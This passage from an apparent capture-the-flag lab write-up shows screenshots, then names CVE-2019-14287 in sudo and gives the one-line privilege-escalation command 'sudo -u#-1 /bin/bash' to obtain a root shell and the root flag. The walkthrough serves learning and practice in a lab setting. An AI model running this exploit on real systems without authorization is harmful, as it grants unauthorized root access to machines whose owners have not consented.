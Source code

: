 <figure><img src="../.gitbook/assets/Schermata del 2023-07-04 20-03-10.png" alt=""><figcaption></figcaption></figure>

<div align="left">

<figure><img src="../.gitbook/assets/Schermata del 2023-07-04 20-09-48.png" alt=""><figcaption></figcaption></figure>

</div>

In alternative we can retrieve sudo version and find it on searchsploit.\


{% hint style="info" %}
CVE-2019-14287
{% endhint %}

#### 6.2 - What is the root flag?

We use this exploit to scale privileges:\


```bash
sudo -u#-1 /bin/bash
```
